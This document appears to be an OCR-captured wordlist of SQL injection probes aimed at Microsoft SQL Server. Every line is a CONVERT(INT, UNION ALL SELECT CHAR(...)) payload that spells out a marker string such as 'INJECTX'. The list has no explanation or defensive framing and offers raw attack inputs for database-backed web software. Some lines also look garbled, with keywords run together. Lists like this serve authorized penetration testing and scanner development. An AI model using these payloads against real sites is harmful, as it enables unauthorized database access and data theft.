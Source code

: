      AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))#
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))#
     UNION ALL SELECT NULL 
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))
     AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))